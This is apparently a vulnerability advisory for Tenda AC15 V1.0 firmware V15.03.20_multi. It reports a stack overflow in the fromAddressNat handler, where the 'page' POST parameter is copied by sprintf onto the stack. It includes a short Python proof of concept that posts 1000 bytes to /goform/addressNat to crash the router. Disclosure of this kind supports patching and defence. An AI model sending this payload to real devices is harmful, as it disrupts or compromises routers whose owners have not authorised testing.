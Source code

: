 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v7` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `page` can trigger this security vulnerability.

![image-20240314180934697](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314180934697.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314180825277](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314180825277.png)
